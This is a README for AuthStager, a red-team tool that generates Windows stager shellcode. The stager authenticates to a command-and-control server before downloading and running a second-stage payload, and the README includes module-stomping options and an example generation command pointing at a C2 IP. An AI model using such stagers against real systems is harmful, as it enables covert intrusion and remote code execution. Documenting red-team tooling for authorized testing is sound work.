 # AuthStager

**AuthStager** is a proof-of-concept tool that generates a custom stager shellcode with request authentication. The stager validates client requests before downloading the second stage, enhancing security in the staging process. The detailed information regarding this project is explained at this blogpost: [Stage, But Verify](https://hulkops.gitbook.io/blog/red-team/stage-but-verify)

## Features
- Generates stager shellcode with request authentication.
- Configurable token expiration.
- Compiles into both shellcode and executable formats.

## Installation

### Prerequisites:
- Python 3.x
- pip
- nasm, make, gcc-mingw-w64-x86-64

### Step-by-step Instructions:
1. Clone the repository:
   ```sh
   git clone https://github.com/HulkOperator/AuthStager.git
   cd AuthStager
2. Install Python dependencies:
    ```sh
    pip install -r requirements.txt
    ```
3. Install system dependencies:
    ```sh
    sudo apt install nasm make gcc-mingw-w64-x86-64
    ```

## Usage
To generate a stager shellcode or executable, use the following syntax:
```sh
python3 generate_stager.py -f <path-to-payload> -H <C2 IP> -s <port> -t <token count> -x <output format>
```
- `-f`: Path to the payload (e.g., /tmp/havoc.bin).
- `-H`: Command and Control (C2) server IP address or Domain.
- `-s`: Port on which the C2 server listens (default: 80).
- `-d`: Sacrificial DLL for Stomping (default: C:\Windows\System32\chakra.dll)
- `-t`: Number of times the payload can authenticate (default: 1, Max: 5).
- `-x`: Output format ('c' for C code, 'raw' for bin file)
- Example Command
```sh
python3 generate_stager.py -f /tmp/havoc.bin -H 192.168.1.122 -s 8080 -t 3 -x c
```

## Demo
The following clip demonstrates the usage of this tool
[![Watch the demo video](https://img.youtube.com/vi/TdABk4_kmnQ/maxresdefault.jpg)](https://youtu.be/TdABk4_kmnQ)


## Disclaimer

This tool is intended for **educational purposes** and **authorized security testing** only. You are solely responsible for ensuring that you have the proper authorization before using this tool. 
The creator and contributors to this project are **not responsible** for any damage or legal consequences caused by the use or misuse of this tool. Use it responsibly and legally.

   
